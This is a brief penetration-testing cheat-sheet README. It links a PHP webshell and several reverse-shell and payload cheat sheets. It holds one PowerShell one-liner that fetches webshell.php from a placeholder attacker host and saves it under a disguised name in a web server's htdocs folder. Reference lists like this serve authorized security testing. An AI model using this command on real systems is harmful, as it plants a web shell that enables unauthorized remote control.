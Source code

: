 # Pentest Pastes
One stop shop for all quick lookups for exploitations (one liners, diff techs, rev shells, etc)

# Webshells
[WhiteWinterWolf php webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

# Powershell
- fetch file `powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"`

# Resources
- http://threatexpress.com/blogs/2019/penetration-testing-pasties/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources
- https://pentestmonkey.net/cheat-sheet
